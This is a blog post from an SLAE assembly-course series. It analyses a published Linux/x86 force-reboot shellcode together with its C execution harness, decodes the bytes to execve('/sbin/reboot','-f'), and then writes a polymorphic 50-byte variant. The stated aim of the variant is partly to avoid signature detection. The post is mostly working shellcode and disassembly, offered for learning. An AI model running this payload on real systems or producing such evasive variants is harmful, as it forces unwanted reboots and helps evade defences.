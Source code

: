 ```yaml
---
layout: post
title: SLAE 6.1 - Shell-Storm Polymorphism - force reboot
date:   2019-03-04
categories: [SLAE, Assembly]
---
```

The first piece of shellcode we will try to create a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-831.php
```
**********************************************
* Linux/x86 Force Reboot shellcode 36 bytes  *
**********************************************
* Author: Hamza Megahed                      *
**********************************************
* Twitter: @Hamza_Mega                       *
**********************************************
* blog: hamza-mega[dot]blogspot[dot]com      *
**********************************************
* E-mail: hamza[dot]megahed[at]gmail[dot]com *
**********************************************

xor    %eax,%eax
push   %eax
push   $0x746f6f62
push   $0x65722f6e
push   $0x6962732f
mov    %esp,%ebx
push   %eax
pushw  $0x662d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

**********************************************

#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e"
                  "\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3"
                  "\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53"
                  "\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
It says it is a force reboot shellcode.  Let's do some analysis before we run it just to verify that it does what it claims to do.\
With how short the shellcode is, I'll check the instructions with ndisasm for a quick overview.\
```
python -c "print '\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80'" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  68626F6F74        push dword 0x746f6f62
00000008  686E2F7265        push dword 0x65722f6e
0000000D  682F736269        push dword 0x6962732f
00000012  89E3              mov ebx,esp
00000014  50                push eax
00000015  66682D66          push word 0x662d
00000019  89E6              mov esi,esp
0000001B  50                push eax
0000001C  56                push esi
0000001D  53                push ebx
0000001E  89E1              mov ecx,esp
00000020  B00B              mov al,0xb
00000022  CD80              int 0x80
00000024  0A                db 0x0a
```
we see:
```
* push null byte
* push what looks like a string
* 1st arg is the string
* push another null
* push another value (string)
* store string address in esi
* push null
* push 2nd string address
* push 1st string address
* move this struct into our 2nd arg
* syscall 11 - execve
```
So we have execve([string1], [string1 string2])\
Let's check the strings:
```
>>> binascii.unhexlify('746f6f62')
'toob'
>>> binascii.unhexlify('65722f6e')
'er/n'
>>> binascii.unhexlify('6962732f')
'ibs/'
>>> binascii.unhexlify('662d')
'f-'
```
Little Endian - first string reads: /sbin/reboot\
second string reads: -f

So our command is execve('/sbin/reboot', {'/sbin/reboot','-f'},0)

Let's begin making a polymorphic version of this..\
This is a pretty short piece of shellcode so we can try to mix it up as much as we can.. One of the requirements is that our version cannot be greater than 150% of the original. Given that our original is 36 bytes, we have to fit within 54 bytes.

The original starts with zeroing out EAX, which is a crafty solution since eax needs to be zeroed out at the end to mov 0xb into al for the syscall.  Let's change this and use edx as the null and we'll just zero EAX later on right before we make the call. We can zero edx with the instruction "cdq" which is a 1 byte opcode.  The next step is to push the /sbin/reboot string to the stack, lets just split this so that we push word values instead of dword values. This might avoid detection on the dword pushes. So we are currently at:
```nasm
 cdq
 push edx

 push word 0x746f
	push word 0x6f62
	push word 0x6572
	push word 0x2f6e
	push word 0x6962
	push word 0x732f
```
Next we have to mov the stack pointer into ebx. We are just going to leave this instruction. Next, we are goign to push a null terminated '-f' to the stack and move it's address into esi for safe keeping. So our push eax is now push edx, we push our string, then let's change this mov esi, esp.  We will use eax since we will be changing it soon anyways.. We can zero out eax by subtracting itself to get 0, then we can just add esp to it.  So we are essentially doing a mov eax, esp but using sub and add instructions.
```nasm
 push edx
 push word 0x662d
 sub eax, eax
 add eax, esp
```
Next we create our args struct with a few push instructions, we will push edx (null), push eax ('-f'), push ebx ('/sbin/reboot') then we need to move our stack pointer into ecx.  Let's do the sub - add replacement for the mov.
```nasm
push edx
push eax
push ebx
sub ecx, ecx
add ecx, esp
```
Our last instructions move 0xb into al and then makes the call.  Since I decided to use edx for the null and eax has values in it, we have to zero it out and then move the value into al.  Again, sub add replacement here then the int 0x80.
```nasm
sub eax, eax
add al, 0xb
int 0x80
```
All done, our total bytes is 50 and it runs properly!  Let's put them side by side to show the differences.
```nasm
xor eax,eax                          cdq     
push eax                             push edx
push dword 0x746f6f62                push word 0x746f
                                     push word 0x6f62
push dword 0x65722f6e                push word 0x6572
                                     push word 0x2f6e
push dword 0x6962732f                push word 0x6962
                                     push word 0x732f
mov ebx,esp                          mov ebx, esp

push eax                             push edx
push word 0x662d                     push word 0x662d
mov esi,esp                          sub eax, eax
                                     add eax, esp
push eax                             push edx
push esi                             push eax
push ebx                             push ebx
mov ecx,esp                          sub ecx, ecx
                                     add ecx, esp
mov al,0xb                           sub eax, eax
                                     add al, 0xb
int 0x80                             int 0x80
```
